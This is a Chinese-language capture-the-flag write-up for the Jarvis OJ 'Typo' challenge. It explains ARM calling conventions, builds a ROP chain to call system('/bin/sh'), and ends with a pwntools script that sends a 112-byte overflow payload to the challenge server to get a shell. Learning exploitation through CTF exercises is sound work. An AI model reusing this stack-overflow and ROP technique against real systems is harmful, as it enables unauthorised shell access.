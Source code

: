 ```yaml
---
title: Jarvis OJ - Typo の Write-Up
date: 2021-01-20 17:09:22
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
- ARM
---
```

## Introduction

Typo作为ARM架构的题目，算是简单的入门题，让初学者能够了解ARM架构的函数调用过程。

<!-- more -->

## Step 1

程序看起来是一个很有趣的打字游戏：

![](/img/Typo/Typo1.png)

checksec发现是arm架构的32位程序：

![](/img/Typo/Typo2.png)

## Step 2

再简单的温习一下ARM架构的函数调用：

![](/img/Typo/Typo3.png)

* R0～R3通常用于传参，剩下的参数从右向左依次入栈，被调用者实现栈平衡，返回值存放在R0中；

* r15  ->  pc  => 当前程序执行位置；

* r14  ->  lr  => 连接寄存器：跳转指令自动把返回地址放入r14中；

* r13  ->  sp  => 栈指针：指向上一帧的栈底；

* r12  ->  ip  => ip 内部过程调用寄存器Intra-Procedure-call scratch register，其实就是r12；

* r11  ->  fp  => 当前函数栈帧的栈底,也就是栈基地址FP；

ARM架构的栈布局如下图所示：

![](/img/Typo/Typo4.png)

main stack frame为调用函数的栈帧，func1 stack frame为当前函数(被调用者)的栈帧，栈底在高地址，栈向下增长。图中FP就是栈基址，它指向函数的栈帧起始地址；

SP则是函数的栈指针，它指向栈顶的位置。ARM压栈的顺序很是规矩，依次为当前函数指针PC、返回指针LR、栈指针SP、栈基址FP、传入参数个数及指针、本地变量和临时变量。先压栈的main stack 进入在高地址。

## Step 3

回到Typo程序本身，在程序中有‘/bin/sh’字符串：

![](/img/Typo/Typo5.png)

同时看到是sub_10ba8函数调用这个字符串，根据sub_10ba8函数发现这个函数其实就是system函数。在这个函数下面紧接着就是sub_110b4函数可以调用sub_10ba8即system函数。

![](/img/Typo/Typo6.png)

有了system函数和’/bin/sh’，接下来需要的是找一个gadget控制R0寄存器：

![](/img/Typo/Typo7.png)

根据找到的gadget构造这样的栈结构：

![](/img/Typo/Typo8.png)

这样在程序返回时, 经过ROP Chain就会实现`r0 -> “/bin/sh”`, `r4 -> junk_data`, `pc = system_addr`的效果, 进而执行`system("/bin/sh")`来get shell。

最后就是寻找溢出点，确定padding的长度。

![](/img/Typo/Typo9.png)

利用cyclic可以计算出padding长度112。

## Step 4

所以解题脚本如下：

```
from pwn import *

# sh = process('./typo')
sh = remote("pwn2.jarvisoj.com", 9888)

payload = 'a'*112 + p32(0x20904) + p32(0x6c384) + p32(1) + p32(0x110b4)

sh.sendafter('quit', '\n')
sh.recvline()

sh.sendline(payload)
sh.interactive()
sh.close()
```

运行结果：

![](/img/Typo/Typo10.png)